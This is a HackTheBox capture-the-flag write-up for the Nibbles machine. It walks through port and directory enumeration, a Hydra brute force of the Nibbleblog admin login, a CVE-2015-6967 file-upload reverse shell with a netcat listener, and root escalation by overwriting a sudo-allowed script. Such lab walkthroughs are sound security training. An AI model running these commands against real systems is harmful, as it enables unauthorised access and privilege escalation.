# Nibbles — Write-Up

| Field | Detail |
|---|---|
| **Machine** | [Nibbles](https://app.hackthebox.com/machines/Nibbles) |
| **Platform** | [HackTheBox](https://app.hackthebox.com/) |
| **Operating System** | Linux (Ubuntu) |
| **Difficulty** | Easy |
| **Flags** | 2 (user + root) |

---

## Reconnaissance

### Port Enumeration

A full Nmap scan is launched to discover active services:

```bash
nmap -p- -sCV -T5 --open -vvv -oN Nibbles 10.129.96.84
```



Open ports:
- **Port 22** — SSH (OpenSSH 7.2p2, Ubuntu)
- **Port 80** — HTTP (Apache 2.4.18, Ubuntu)

---

## Web Enumeration

Browsing to port 80 shows a page with the text "Hello world!":



### Source Code Analysis

The page source is inspected. An HTML comment reveals the existence of a hidden directory:

```html
<!--/nibbleblog/ directory. Nothing interesting here!-->
```



Navigating to `/nibbleblog/` shows a blog called **Nibbles Yum yum**:



### Directory Fuzzing

**Gobuster** is run against `/nibbleblog/` to discover additional paths:

```bash
gobuster dir -u http://10.129.96.84/nibbleblog/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,xml
```



Relevant paths are discovered: `/admin.php`, `/content`, `/plugins`, among others.

### Exploring the /content Directory

Browsing to `/nibbleblog/content/` reveals a directory listing:



Navigating to `/nibbleblog/content/private/users.xml` discloses the administrator username: **admin**:



---

## Admin Panel Access

### Login Form Analysis

The admin panel at `/nibbleblog/admin.php` is inspected with curl to confirm its structure:

```bash
curl -s http://10.129.96.84/nibbleblog/admin.php
```



A test login with wrong credentials is sent to capture the error message that Hydra will use:

```bash
curl -i -s -X POST \
  -d "username=admin&password=prueba" \
  http://10.129.96.84/nibbleblog/admin.php
```



The error message is: `Incorrect username or password`.

### Wordlist Generation with CeWL

A custom wordlist is generated from the blog content using **CeWL**:

```bash
cewl --lowercase http://10.129.96.84/nibbleblog/ -w diccionario_Nibbles.txt
```



The generated wordlist contains words scraped from the site:



### Brute Force with Hydra

A brute force attack is launched against the admin panel using **Hydra**:

```bash
hydra -l admin \
  -P /home/kali/Escritorio/HTB/Nibbles/diccionario_Nibbles.txt \
  10.129.96.84 \
  http-post-form \
  "/nibbleblog/admin.php:username=^USER^&password=^PASS^:F=Incorrect username or password"
```



Valid credentials found: **admin : nibbles**

### Dashboard Access

The admin panel is accessed with the obtained credentials:



---

## Exploitation — File Upload RCE (CVE-2015-6967)

### Vulnerability Research

The Nibbleblog version is researched and **CVE-2015-6967** is found: the *My image* plugin allows unrestricted file upload, enabling remote code execution by uploading a PHP file directly accessible at `content/private/plugins/my_image/image.php`:



### Locating the My image Plugin

In the admin panel under **Plugins**, the **My image** plugin is located:



### Uploading the Reverse Shell

A PHP reverse shell is generated and uploaded through the My image plugin by clicking **Configure**:



Before triggering the shell, a Netcat listener is set up on the attacker machine:

```bash
nc -lvnp 9001
```

The uploaded file is accessed to execute it:

```
http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php
```



A shell is obtained as user **nibbler**:



### User Flag

```bash
cd /home
cd nibbler
ls
cat user.txt
```



---

## Privilege Escalation

### Sudo Permissions Enumeration

Sudo privileges for `nibbler` are checked:

```bash
sudo -l
```



```
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

The user can run **monitor.sh** as root without a password. The file does not exist yet — it is compressed inside `personal.zip`.

### Unzipping personal.zip

```bash
ls
unzip personal.zip
ls
cd personal/stuff/
ls
```



`monitor.sh` is confirmed to exist after extracting the zip.

### Overwriting monitor.sh

`monitor.sh` is overwritten with a payload that spawns a root bash shell:

```bash
echo -e '#!/bin/bash\nexec /bin/bash -i' > monitor.sh
cat monitor.sh
```



### Execution and Escalation

The script is executed with sudo:

```bash
sudo ./monitor.sh
```



A shell as **root** is obtained.

### Root Flag

```bash
cd /root
ls
cat root.txt
```



---

## Summary

| Phase | Technique | Tool |
|---|---|---|
| Enumeration | Port Scan | `nmap` |
| Web enumeration | Directory fuzzing | `gobuster` |
| Web enumeration | Source code inspection | Browser |
| Web enumeration | Exposed file reading | Browser |
| Credential obtaining | Custom wordlist + brute force | `cewl` + `hydra` |
| Exploitation | Unrestricted file upload (CVE-2015-6967) | Browser / `nc` |
| Privilege escalation | Overwriting sudo-allowed script | `bash` |
